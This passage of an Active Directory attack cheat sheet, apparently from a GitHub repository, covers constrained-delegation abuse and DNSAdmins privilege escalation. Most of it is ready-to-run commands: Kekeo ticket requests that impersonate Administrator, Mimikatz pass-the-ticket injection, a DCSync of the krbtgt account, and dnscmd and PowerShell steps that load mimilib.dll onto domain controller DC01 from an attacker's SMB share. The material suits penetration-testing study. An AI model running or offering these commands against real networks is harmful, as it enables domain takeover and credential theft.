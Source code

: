    Allows access only to specified services on specified computers as a user

    - Enumerate users and computers with constrained delegation enabled PowerView (dev)
        ```powershell
        Get-DomainUser -TrustedToAuth
        Get-DomainComputer -TrustedToAuth
        #
        Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
        ```
        - Using asktgt from Kekeo, we request a TGT
        ```powershell
        .\kekeo.exe
        tgt::ask /user:aimavc /domain:lab.domain.local / rc4:00000000000000000000000000000000
        ```
        - Using s4u from Kekeo, we request a TGS
        ```powershell
        tgs::s4u /tgt:TGT_aimsvc@LAB.DOMAIN.LOCAL_krbtgt~lab.domain.local@LAB.domain.LOCAL.kirbi /user:Administrator@lab.domain.local /service:cifs/domain-service.lab.domain.LOCAL
        ```
        - Inject the ticket
        ```powershell
        Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@lab.domain.local@LAB.DOMAIN.LOCAL_cifs~domain-aimsvc.LAB.DOMAIN.LOCAL@LAB.DOMAIN.LOCAL.kirbi"'
        ```
        - Using asktgt from Kekeo, we request a TGT (MACHINE ACCOUNT)
        ```powershell
        .\kekeo.exe
        tgt::ask /user:aimavc$ /domain:lab.domain.local / rc4:00000000000000000000000000000000
        ```
        - Using s4u from Kekeo (MACHINE ACCOUNT)
        ```powershell
        tgs::s4u /tgt:TGT_lab-aimsrv$@LAB.DOMAIN.LOCAL_krbtgt~lab.domain.local@LAB.DOMAIN.LOCAL.kirbi /user:Administrator@lab.domain.local /service:time/dc01.lab.domain.LOCAL|ldap/dc01.lab.domain.LOCAL
        ```
        - Inject the ticket
        ```powershell
        Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@lab.domain.local@LAB.DOMAIN.LOCAL_ldap~domain-aimsvc.LAB.DOMAIN.LOCAL@LAB.DOMAIN.LOCAL.kirbi"'
        ```
        - DCSync
        ```powershell
        Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
        ```

---
#### DNS ADMIN PE

Main objective : Inject evil DLL and restart DNS service, it is possible to upload the DLL in target server, or you can point the configuration to your SMB share.
- Enumerate the members of the DNSAdmis group
```powershell
Get-NetGroupMember -GroupName "DNSAdmins"
Get-ADGroupMember -Identity DNSAdmins
```
- Hunt the DNSAdmins account or grant yourself in DNSAdmins group member, upload and load your DLL
```powershell
# dnscmd.exe
dnscmd DC01 /config /serverlevelplugindll \\YOURSMBSRV\SHARE\mimilib.dll
# DNSServer module
$dnsettings = Get-DnsServerSetting -ComputerName DC01 -Verbose -All
$dnsettings.ServerLevelPluginDll = "\\YOURSMBSRV\SHARE\mimilib.dll" Set-DnsServerSetting -InputObject $dnsettings -ComputerName DC01 -Verbose
# CHECK REGISTRY VALUE FOR ServerLevelPluginDll
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
#
```